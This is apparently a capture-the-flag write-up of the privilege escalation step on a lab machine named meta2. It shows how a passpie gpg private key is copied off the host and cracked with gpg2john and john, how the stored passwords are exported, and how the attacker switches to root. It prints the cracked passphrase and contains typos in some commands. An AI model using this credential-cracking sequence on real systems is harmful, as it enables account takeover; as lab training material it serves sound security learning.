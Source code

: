 ### Privilage escalation

Machine has a utility tool named passpie which is a password manager written in python and it contain user jnelson and root password stored in gpg encryption. we need passpharse for exporting the password to plaintext. Check all of our existing passwords: none of them will work. But we have the config of passpie private and public key used for gpg encryption

Location 
/home/jnelson/.passpie/.keys

Exploit    
Cracking gpg private key password using john

steps   

* Copy the private key to my local machine
* Now we have the private key
* for cracking we needs to do is convert it to a john friendly format. The jumbo pack version of jtr has a tool called gpg2john
* gpg2jogn private.key > hash
* john hash --wordlist=rockyou.txt

Cracked passpharse:blink182

Export password to plaintext 

```bash
passipe export passwords
```

Take the password swtich to root

```bash
jnelson@meta2:~$ su root
Password: 
root@meta2:/home/jnelson# id && whoami
uid=0(root) gid=0(root) groups=0(root)
root
root@meta2:/home/jnelson# 
```



